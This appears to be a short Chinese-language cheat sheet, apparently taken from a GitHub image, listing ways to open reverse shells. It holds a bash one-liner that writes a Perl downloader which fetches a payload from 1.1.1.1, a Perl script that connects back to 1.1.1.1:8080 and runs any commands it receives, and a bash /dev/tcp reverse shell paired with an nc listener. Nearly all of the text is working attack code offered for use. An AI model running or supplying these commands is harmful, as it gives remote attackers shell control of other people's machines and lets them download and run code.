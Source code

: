 0、perl反弹shell  
用于生成下载脚本的bash命令：
```
echo use LWP::Simple\;\$url=\"http://1.1.1.1/r.txt\"\;\$coont=get\(\$url\)\;die \"not found link..\" if\(\!defined\(\$coont\)\)\;open \$file,\"\>r.pl\" or die \"couldn\'t open t.txt ..\\n\"\;print \$file \$coont\;close\(\$file\)\;exit\;>d.pl
```
执行后生成d.pl，再执行d.pl下载r.pl，r.pl（用于反连的perl脚本）如下：
```
use IO::Socket::INET;$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"1.1.1.1:8080");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~/(.*)/){system $1;}};
```

1、bash反弹shell  
attack执行：nc -lvp 2333  
victim执行：
```
bash -i >& /dev/tcp/1.1.1.1/2333 0>&1
```
